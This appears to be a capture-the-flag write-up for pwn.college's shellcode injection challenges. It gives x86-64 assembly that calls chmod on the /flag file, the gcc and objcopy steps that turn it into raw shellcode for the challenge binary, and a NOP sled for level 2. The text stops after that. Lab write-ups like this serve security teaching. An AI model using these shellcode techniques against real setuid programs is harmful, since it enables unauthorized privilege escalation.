 # Shellcode Injection

{% hint style="info" %}
You can find the full code for all challenges [here](https://github.com/kunalwalavalkar/Pwn-College/tree/main/Shellcode%20Injection).
{% endhint %}



## level 1

> Write and execute shellcode to read the flag!

* We can use `chmod` to change fthe file permissions on the /flag file.

```armasm
# Chmod syscall
lea rdi, [rip + flag]
mov rsi, 4
mov rax, 0x5a
syscall
```

* We can compile the program using `gcc`.

```
~$ gcc -nostdlib ./shellcode.s -o ./shellcode
```

* The `-nostdlib` flag, which tells the compiler not to include the standard C library.
* Let's extract the .text section using `objcopy`.

```
~$ objcopy --dump-section .text=./shellcode.bin ./shellcode
```

* The `--dump-section` is used to extract a specific section from the object file.
* We can provide the `./shellcode.bin` file as stdin to the challenge as follows:

```
~$ /challenge/babyshell_level1 < ./shellcode.bin
```

* We can now read the flag.

```
~$ cat /flag
```



## level 2

> Write and execute shellcode to read the flag, but a portion of your input is randomly skipped.

* Let's implement a [NOP sled](https://en.wikipedia.org/wiki/NOP\_slide) skips the first `0x800` bytes then.

```armasm
.rept 0x800
nop
.endr
```
